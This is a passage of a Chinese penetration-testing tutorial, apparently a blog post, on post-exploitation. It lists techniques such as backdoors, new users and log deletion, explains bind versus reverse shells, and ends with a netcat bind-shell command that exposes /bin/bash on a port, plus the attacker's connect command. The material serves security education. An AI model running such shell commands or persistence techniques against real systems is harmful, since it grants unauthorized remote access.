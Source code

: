 ```yaml
---
layout: post
comments: true
title: 渗透测试指南（五）后利用及报告
category: 网络安全
keywords: Pentest,2020
---
```


渗透测试指南系列文章内容纲要<br>
    [第一章 渗透测试简介](https://www.freebuf.com/column/238471.html)<br>
    [第二章 前期交互](https://www.freebuf.com/column/238471.html)<br>
    [第三章 信息收集](https://www.freebuf.com/column/238867.html)<br>
    [第四章 漏洞识别](https://www.freebuf.com/column/238867.html)<br>
    [第五章 社会工程学](https://www.freebuf.com/column/239520.html)<br>
    [第六章 有线/无线网络利用](https://www.freebuf.com/column/240371.html)<br>
    第七章 基于应用的漏洞利用<br>
    第八章 基于本地主机和物理的利用<br>
    **第九章 后-利用 技术**<br>
    第十章 渗透测试工具集介绍<br>
    **第十一章 渗透报告**

本文介绍了后渗透利用及渗透测试报告的编写。

# 后渗透利用
后渗透利用是指测试者发现目标的脆弱点，并进一步利用获取目标系统的初级/高级权限后，做的一些操作。比如以目标机器作为跳板进一步内网测试，或者是添加远程控制木马，删除入侵日志信息等。

常见的后利用方式有：<br>
    创建绑定shell（bind shell）或反弹shell（reverse shell）<br>
    创建调度任务<br>
    创建守护进程<br>
    创建新用户<br>
    创建后门<br>
    上传工具<br>
    执行ARP扫描<br>
    执行DNS和目录服务枚举<br>
    执行暴破攻击<br>
    配置端口转发<br>
    创建SSH隧道<br>
    创建VPN隧道

## bind shell & reverse shell
所谓bind shell是指在被入侵的设备开启监听一个端口，这个端口和本地shell进程绑定，攻击者只有连接到这个端口即可执行shell命令。而reverse shell与此相反，攻击者在本地监听一个端口，本入侵设备主动连接攻击者的端口，并提供shell进程交互。

简单来说就是在被入侵设备开启端口监听就是bind shell，在攻击者设备开启端口监听就是反弹shell。

nc，netcat，ncat是一个工具的三个不同名称，被称为“瑞-士-军-刀”。用nc来演示bind shell和reverse shell

### bind shell
使用nc
```
被入侵系统  192.168.1.2
nc -lvp 8888 -e /bin/bash

攻击者      192.168.1.3
nc 192.168.1.2 8888
```
